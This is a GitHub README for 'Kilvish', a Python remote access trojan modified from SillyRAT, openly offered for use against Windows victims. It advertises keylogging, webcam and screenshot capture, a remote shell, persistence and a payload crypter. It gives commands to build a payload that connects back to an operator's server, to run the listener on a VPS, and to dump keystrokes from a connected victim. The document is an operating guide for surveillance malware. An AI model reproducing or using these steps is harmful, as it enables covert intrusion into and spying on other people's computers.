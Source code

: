 <h1 align="center"> 
    <img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/kilvish.jpg?raw=true" alt="KILVISH" /> <br>    
    KILVISH
</h1>
<p align="center">
    <a href="#" target="_blank"><img src="https://img.shields.io/badge/platform-cross-important" alt="platform: cross" /></a>
    <a href="https://www.python.org/" target="_blank"><img src="https://img.shields.io/badge/Python-3-yellow.svg?logo=python" alt="Python: 3" /></a>
    <a href="https://github.com/siddhant385/Kilvish/releases" target="_blank"><img src="https://img.shields.io/badge/version-v1.0-blue.svg?logo=moo" alt="Release: v1.0" /></a>
    <a href="https://opensource.org/licenses/MIT" target="_blank"><img src="https://img.shields.io/badge/license-MIT-green.svg" alt="lisence" /></a>
</p>
<h4 align="center"> A Cross Platform multifunctional (Windows/Linux/Mac) RAT but for now victim is only windows User.</h4>

<h6 align="center"><img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/1.png?raw=true"></h6>

## Getting Started
### Description
A  crossplatform RAT written in pure Python with some powershell scripts. The RAT accept commands alongside arguments to either perform as the server who accepts connections or to perform as the client/target who establish connections to the server. The **generate** command uses the module **pyinstaller** to compile the actual payload code. So, in order to generate payload file for your respective platform, you need to be on that platform while generating the file. Moreover, you can directly get the source file as well. 

### Features
<ul>
    <li>Built-in Shell for command execution</li>
    <li>Dumping System Information including drives and rams</li>
    <li>Screenshot module. Captures screenshot of client screen.</li>
    <li>Webcam module. Captures Webcam of client screen.(Thanks to Bainky/RAT)</li>
    <li>Connection Loop (Will continue on connecting to server)</li>
    <li>Currently, it uses BASE64 encoding for connection. </li>
    <li>Encrypts the payload using AES Encryption (Thanks to pushpendraindia)</li>
    <li>Pure Python</li>
    <li>Cross Platform. (Tested on Linux. Errors are accepted)</li>
    <li>Voice commands(Thanks to samratashok/nishang)</li>
    <li>Additional system info (Thanks to samratashok/nishang)</li>
    <li>Persistent</li>
    <li>Source File included for testing</li>
    <li>Less than 10 mb executble file/li>
    <li>Built in Crypter for encoding in base64 and AES</li>
    <li>Pushing Notifications when a client connects with plyer</li>
    <li>Python 3</li>
</ul>

### To be expected in future
<ul>
    <li>Stealth Execution</li>
    <li>Encryption</li>
    <li>Storing Sessions from last attempt</li>
    
</ul>

### Installation
The tool is tested on **Windows 10** with **Python 3.9**. 
Follow the steps for installation:
```
$ git clone https://github.com/siddhant385/Kilvish.git
$ cd Kilvish/
$ pip3 install -r requirements.txt
```

## Documentation
### Generating Payload
You can get the payload file in two ways: 
<ul>
    <li>Source File</li>
    <li>Compiled File</li>
</ul>
The source file is to remain same on all platforms. So, you can generate it on one platform and use it on the other. Getting the source file: 

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/payload.py --source
```

The compiled version has to generated on the respective platform. For example, you can't generate an .exe file on Linux. You specifically have to be on Windows. The tool is still under testing. So, all kinds of errors are accepted. Make sure to open an issue though. Generating the Compiled Version for Linux:

```
$ python3 server.py generate --address 134.276.92.1 --port 2999 --output /tmp/filer
```

<h6 align="center"><img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/2.png?raw=true"></h6>

Replace your IP Address and Port on above commands. 

### Running Server
The server must be executed on Linux. You can buy a VPS or Cloud Server for connections. For the record, the server doesn't store any session from last run. So, all the progress will lost once the server application gets terminated. Running your server:
```
$ python3 kilvish.py bind --address 0.0.0.0 --port 2999
```

### Connections
All the connections will be listed under **sessions** command:
```
$ sessions
```

<h6 align="center"><img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/3.png?raw=true"></h6>

You can connect to you target session with **connect** command and launch one of available commands: 
```
$ connect ID
$ keylogger on
$ keylogger dump
$ screenshot
```

<h6 align="center"><img src="https://github.com/siddhant385/KilvishRAT/blob/master/.github/4.png?raw=true"></h6>

### Help
Get a list of available commands: 
```
$ help
```

Help on a Specific Command:
```
$ help COMMAND
```

### Support my work By giving a Star
### FORK IT FOR CONTRIBUTION


### ORIGINAL CREATOR OF SILLYRAT WHICH IS MODIFIED TO CREATE KILVISH
Twitter: <a href="//twitter.com/hash3liZer">@hash3liZer</a><br>
Discord: TheFlash2k#0407

